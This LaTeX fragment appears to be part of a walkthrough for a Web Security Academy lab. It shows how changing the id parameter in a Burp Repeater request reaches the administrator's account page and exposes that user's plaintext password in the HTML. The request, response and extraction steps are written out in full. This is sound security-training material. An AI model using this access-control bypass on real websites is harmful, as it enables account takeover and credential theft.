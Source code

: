 \documentclass[11pt,letterpaper]{article}
\newcommand{\password}[1]{\texttt{\color{passwordcolor}#1}}
\begin{document}
\begin{listing}[H]
\begin{verbatim}
-- Using Burp Repeater, modify the id parameter --
GET /my-account?id=administrator HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=authenticatedSession123

-- VULNERABLE Response: Administrator's account data! --
HTTP/1.1 200 OK
Content-Type: text/html

<html>
<body>
    <h1>My Account</h1>
    <p>Your username is: <strong>administrator</strong></p>

    <form method="POST" action="/my-account/change-email">
        <label>Email</label>
        <input name="email" value="admin@example.com">
        <button>Update email</button>
    </form>

    <form method="POST" action="/my-account/change-password">
        <label>Password</label>
        <!-- CRITICAL: Administrator's password exposed! -->
        <input type="password" name="password" value="xK7mN9pQrS2t">
        <button>Update password</button>
    </form>
</body>
</html>
\end{verbatim}
\caption{Step 3: Change id parameter to administrator}
\end{listing}

\begin{warningbox}
We accessed the administrator's account page using our low-privilege session, and the response contains the administrator's plaintext password: \password{xK7mN9pQrS2t}

This combines both vulnerabilities:
\begin{enumerate}
  \item IDOR: We accessed another user's account page
  \item Password Disclosure: Their password is visible in the HTML
\end{enumerate}
\end{warningbox}

\subsection{Step 4: Extract Administrator Password}

From the response HTML, extract the password from:
\begin{verbatim}
<input type="password" name="password" value="xK7mN9pQrS2t">
\end{verbatim}
\end{document}
